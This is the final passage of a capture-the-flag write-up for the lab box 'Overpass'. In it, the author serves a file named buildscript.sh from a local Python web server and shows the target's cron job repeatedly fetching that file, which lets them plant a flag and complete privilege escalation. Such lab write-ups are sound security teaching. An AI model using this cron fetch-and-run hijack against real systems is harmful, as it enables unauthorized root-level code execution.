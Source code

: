 Once the server is started, wait for some time so that cron generates a request to get the 'buildscript.sh file'. As soon as it generates a request, it would get reflected on our local system:
```
tester@kali:~/Desktop$ sudo python3 -m http.server 80
[sudo] password for tester: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.129.106 - - [19/Jul/2020 22:19:03] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
10.10.129.106 - - [19/Jul/2020 22:20:04] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
10.10.129.106 - - [19/Jul/2020 22:21:04] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
```

As the status code is also 200, we can be assured that the request was completed successfully. We can now got the box and check the file `/tmp/flag` and find our flag over there.

With this, we solved the box `OVERPASS`.

### Some Points To Learn
1. Always pay attention to the functions that are processing data (the login() function).
2. Try to use linPEAS and other such tools for Privilege Escalation enumeration.
 